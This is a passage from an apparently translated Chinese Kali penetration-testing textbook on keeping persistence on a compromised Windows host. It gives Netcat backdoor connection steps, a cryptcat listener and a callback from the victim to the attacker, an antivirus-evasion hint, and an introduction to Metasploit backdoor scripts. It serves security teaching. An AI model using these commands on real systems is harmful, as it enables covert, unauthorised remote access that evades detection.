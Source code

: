 使用以下命令确认更改已成功实施：

```
C:\windows\system32>netsh firewall show portopening

```

前面提到的命令的执行结果显示在以下截图中：

![将 Netcat 作为持久代理](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_06_06.jpg)

确认端口规则后，确保重启选项有效。

+   从`meterpreter`提示符输入以下命令：

```
meterpreter> reboot

```

+   从交互式 Windows shell 中输入以下命令：

```
C:\windows\system32>shutdown –r –t 00

```

要远程访问受损系统，请在命令提示符中输入`nc`，指示连接的详细程度（`-v`报告基本信息，`-vv`报告更多信息），然后输入目标的 IP 地址和端口号，如下截图所示：

![将 Netcat 作为持久代理](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/ms-kali-adv-pentest/img/3121OS_06_07.jpg)

不幸的是，使用 Netcat 存在一些限制—没有传输数据的身份验证或加密，并且几乎所有杀毒软件都会检测到它。

可以使用**cryptcat**解决加密问题，它是 Netcat 的变体，使用 Twofish 加密来保护被攻击主机和攻击者之间传输的数据。由 Bruce Schneier 开发的 Twofish 加密是一种先进的对称分组密码，为加密数据提供了相当强的保护。

要使用`cryptcat`，确保有一个准备好并配置了强密码的监听器，使用以下命令：

```
root@kali:~# cryptcat –k password –l –p 444

```

接下来，上传`cryptcat`到被攻击系统，并使用以下命令配置它连接到监听器的 IP 地址：

```
C:\cryptcat –k password <listener IP address> 444

```

不幸的是，Netcat 及其变体仍然可以被大多数杀毒软件检测到。可以使用十六进制编辑器修改 Netcat 的源代码使其不可检测；这将有助于避免触发杀毒软件的签名匹配动作，但这可能是一个漫长的反复试验过程。更有效的方法是利用 Metasploit Framework 的持久性机制。

# 使用 Metasploit Framework 保持持久性

Metasploit 的`meterpreter`包含几个支持在被攻击系统上保持持久性的脚本。我们将研究两个脚本选项，用于在被攻击系统上放置后门：`metsvc`和`persistence`。

## 使用 metsvc 脚本
